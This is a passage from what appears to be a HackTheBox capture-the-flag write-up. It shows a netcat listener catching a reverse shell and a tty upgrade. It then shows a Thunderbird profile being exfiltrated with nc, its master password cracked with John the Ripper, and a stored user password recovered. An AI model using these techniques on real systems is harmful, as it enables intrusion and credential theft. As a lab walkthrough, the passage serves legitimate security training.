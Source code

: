 
    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 54104
    /bin/sh: 0: can't access tty; job control turned off

    $ python3 -c 'import pty;pty.spawn("bash")'
    www-data@ubuntu:/var/www$ pwd
    /var/www



## Privesc: www-data --\> dom

Started off with a LinEnum.sh, but nothing particularly interesting
jumped out.

`/home/dom` was open for reading, which in addition to giving
`user.txt`, also revleas a `.thunderbird` directory with a profile in
it.

### thunderbird - password extraction

Inside the profile, the first interesting thing is to look for
passwords.

zip that entire directory and exfil it using `nc`. First, get the master
password using john:



    root@kali# /opt/JohnTheRipper/run/mozilla2john.py key3.db
    key3.db:$mozilla$*3*20*1*811d3b70d608a8ad6faee44bf0568bd77ca8b2ca*11*0000000000000000000000*16*1810e3dcb634e700a4d959e35d38f282*20*11a9519177437ef38aa8bf1966d02f0d9f6a8c2f
    root@kali# /opt/JohnTheRipper/run/mozilla2john.py key3.db > key3.db.john
    root@kali:/opt/JohnTheRipper/run# ./john ~/hackthebox/crimestoppers-10.10.10.80/key3.db.john -w /usr/share/wordlists/rockyou.txt
    Loaded 1 password hash (Mozilla, Mozilla key3.db [SHA1 3DES 32/64])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
                     (key3.db)
    1g 0:00:00:00 DONE (2018-04-08 17:34) 25.00g/s 88650p/s 88650c/s 88650C/s 123456..sss
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed



Empty master password, great. There's probably some tools to extract
information from the profile, but the simplest route was to install
thunderbird on kali, and then move all the files into the existing
profile:



    root@kali# mv 36jinndk.default/* 26zud94m.Default\ User/



Then, launch firebird, and hit alt+e to get to edit -\> preferences -\>
security -\> saved passwords -\> show passwords:
![](/img/dom-pass.png) So dom's password is
`Gummer59`. And it works for her account on the box:
